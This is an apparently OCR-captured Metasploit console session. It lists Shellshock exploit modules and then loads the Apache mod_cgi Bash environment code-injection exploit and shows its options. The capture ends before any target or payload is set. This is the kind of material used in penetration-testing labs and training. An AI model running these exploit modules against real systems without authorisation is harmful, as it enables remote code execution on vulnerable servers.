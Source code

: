 ```
   #   Name                                               Disclosure Date  Rank       Check  Description
   -   ----                                               ---------------  ----       -----  -----------
   0   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   1   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     No     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   2   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Yes    Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   3   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  Yes    IPFire Bash Environment Variable Injection (Shellshock)
   4   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Yes    Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   5   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   6   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  Yes    CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   7   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Yes    Legend Perl IRC Bot Remote Code Execution
   8   exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   9   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     Yes    OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   10  exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  No     Dhclient Bash Environment Variable Injection (Shellshock)
   11  exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     No     Qmail SMTP Bash Environment Variable Injection (Shellshock)


msf5 > use 5
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Exploit target:

   Id  Name
```